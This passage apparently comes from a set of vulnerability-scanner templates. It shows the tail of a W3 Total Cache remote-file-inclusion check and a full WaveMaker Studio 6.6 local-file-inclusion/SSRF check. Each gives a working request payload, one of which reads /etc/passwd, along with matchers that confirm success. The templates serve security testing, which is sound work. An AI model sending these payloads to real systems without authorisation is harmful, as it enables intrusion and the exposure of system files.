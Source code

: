 ## Requests

### Step - 1

```
PUT /wp-content/plugins/w3-total-cache/pub/sns.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"https://rfi.nessus.org/rfi.txt"}

```

### Matchers

**Type - word**

- words
  1. TmVzc3VzQ29kZUV4ZWNUZXN0
- part - body

---

# Wavemaker Studio 6.6 - Local File Inclusion/Server-Side Request Forgery

## Description

- WaveMaker Studio 6.6 mishandles the studioService.download?method=getContent&inUrl= value in com/wavemaker/studio/StudioService.java, leading to disclosure of local files and server-side request forgery.
- severity - critical
- tags - cve,cve2019,wavemaker,lfi,ssrf,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wavemaker/studioService.download?method=getContent&inUrl=file///etc/passwd

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---